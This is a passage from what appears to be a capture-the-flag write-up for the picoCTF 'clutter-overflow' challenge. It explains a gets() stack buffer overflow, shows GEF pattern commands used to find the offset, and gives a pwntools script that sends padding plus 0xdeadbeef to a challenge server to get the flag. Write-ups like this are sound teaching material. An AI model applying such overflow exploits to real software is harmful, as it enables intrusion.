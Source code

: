 ```c
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```

Pretty straight-forward challenge. We have a `gets()` to trigger a Buffer Overflow and all we have to do is change `code` value from `0` to `0xdeadbeef`.  Let's open a debugger to find the offset where we overwrite the `code` which is placed on the stack.

```gdb
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
```

In the beginning of `main`, we saw that the `code` value is placed on `$rbp-0x8`. We will find the offset till `$rbp` and then subtract `8`.

```gdb
gef➤  pattern offset $rbp
[+] Searching for '$rbp'
[+] Found at offset 272 (little-endian search) likely
```

Great! The offset is `272-8`. The only thing left now, is to overwrite the value with `0xdeadbeef`.

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.log_level = 'critical'

r = remote('mars.picoctf.net', 31890)

r.sendline(b'A'*264 + p64(0xdeadbeef))
print(f'\nFlag --> {r.recvline_contains(b"pico").strip().decode()}\n')
```

```bash
➜  clutter-overflow git:(main) ✗ python solver.py

Flag --> picoCTF{XXX}
```

### VNE

